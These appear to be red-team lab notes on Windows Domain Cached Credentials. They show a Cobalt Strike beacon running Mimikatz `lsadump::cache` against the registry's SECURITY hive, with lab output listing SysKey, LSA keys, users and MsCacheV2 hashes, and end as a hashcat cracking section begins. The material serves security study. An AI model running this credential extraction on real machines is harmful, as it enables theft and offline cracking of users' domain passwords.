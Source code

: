 ## Domain Cached Credentials (DCC)

<mark style="color:yellow;">Domain Cached Credentials was designed for instances where domain credentials are required to logon to a machine, even while it's disconnected from the domain</mark> (_**think of a roaming laptop**_ for example).

The <mark style="color:yellow;">local device caches the domain credentials so authentication can happen locally</mark>, <mark style="color:$danger;">but these can be extracted and cracked offline to recover plaintext credentials</mark>.

Unfortunately, the hash format is not NTLM, so it can't be used to _**Pass The Hash**_.

<mark style="color:$danger;">The only viable use for these is to crack them offline</mark>.

The `lsadump::cache` Mimikatz module can extract these from `HKLM\SECURITY` in the Registry.

{% hint style="warning" %}
This command requires ELEVATED privileges.
{% endhint %}

```
beacon> mimikatz !lsadump::cache

Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a

Local name : WKSTN-2 ( S-1-5-21-2281971671-4135076198-2136761646 )
Domain name : DEV ( S-1-5-21-569305411-121244042-2357301523 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9f88abd7-1cb9-d741-372b-c883b3cbf843}
  [00] {9f88abd7-1cb9-d741-372b-c883b3cbf843} c38164900449d2c6d81b557198ab0cbda2c0ce1c9f57c717cb221032ba1adffb

* Iteration is set to default (10240)

[NL$1 - 9/1/2022 8:10:06 AM]
RID       : 00000450 (1104)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 9/1/2022 10:29:19 AM]
RID       : 00000451 (1105)
User      : DEV\jking
MsCacheV2 : 0d50dee9ed3f29d00282168297090d2a
```

### Cracking

<mark style="color:yellow;">To crack these with</mark> [<mark style="color:yellow;">hashcat</mark>](https://hashcat.net/hashcat/)<mark style="color:yellow;">, we need to transform them into the expected format</mark>.
